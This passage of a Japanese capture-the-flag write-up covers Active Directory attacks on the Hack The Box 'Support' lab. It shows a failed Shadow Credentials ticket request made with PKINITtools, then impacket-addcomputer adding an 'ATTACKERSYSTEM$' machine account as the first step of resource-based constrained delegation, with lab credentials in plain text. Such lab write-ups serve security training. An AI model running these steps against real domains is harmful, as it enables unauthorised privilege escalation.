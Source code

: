 TGTを取得する
- Shadow Credentials は失敗（KDC 側が未対応か証明書不正）
```bash
                                                                                                                                                                               
┌──(pkinitenv)─(kali㉿kali)-[~/…/HTB/machine/Support/PKINITtools]
└─$ python3 gettgtpkinit.py support.htb/DC\$ \
  -cert-pfx ../4UwehWqZ.pfx \
  -pfx-pass Dmy6MUXFE65c25LHuI1K \
  -dc-ip 10.129.230.181 \
  DC.ccache
2025-07-29 21:17:32,441 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-07-29 21:17:32,457 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
Traceback (most recent call last):
  File "/home/kali/Desktop/HTB/machine/Support/PKINITtools/gettgtpkinit.py", line 349, in <module>
    main()
    ~~~~^^
  File "/home/kali/Desktop/HTB/machine/Support/PKINITtools/gettgtpkinit.py", line 345, in main
    amain(args)
    ~~~~~^^^^^^
  File "/home/kali/Desktop/HTB/machine/Support/PKINITtools/gettgtpkinit.py", line 315, in amain
    res = sock.sendrecv(req)
  File "/home/kali/Desktop/HTB/machine/Support/pkinitenv/lib/python3.13/site-packages/minikerberos/network/clientsocket.py", line 85, in sendrecv
    raise KerberosError(krb_message)
minikerberos.protocol.errors.KerberosError:  Error Name: KDC_ERR_PADATA_TYPE_NOSUPP Detail: "KDC has no support for PADATA type (pre-authentication data)" 
                                                                                                                                                              
```

## リソースベースの制約付き委任
Resource-Based Constrained Delegation に切り替える
Active Directoryドメインに「ATTACKERSYSTEM$」という名前の新しいコンピューターアカウントを追加する
- support ユーザーはドメインにコンピューターを追加する権限を持っているため、この操作が可能\
- ドメイン内で正規のコンピューターとして振る舞うための足がかり
```bash
┌──(pkinitenv)─(kali㉿kali)-[~/…/HTB/machine/Support/PKINITtools]
└─$ impacket-addcomputer -computer-name 'ATTACKERSYSTEM$' \
  -computer-pass 'Summer2018!' \
  -dc-host support.htb0 \
  -domain-netbios SUPPORT \
  'support.htb/support:Ironside47pleasure40Watchful'
/home/kali/Desktop/HTB/machine/Support/pkinitenv/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Successfully added machine account ATTACKERSYSTEM$ with password Summer2018!.

```
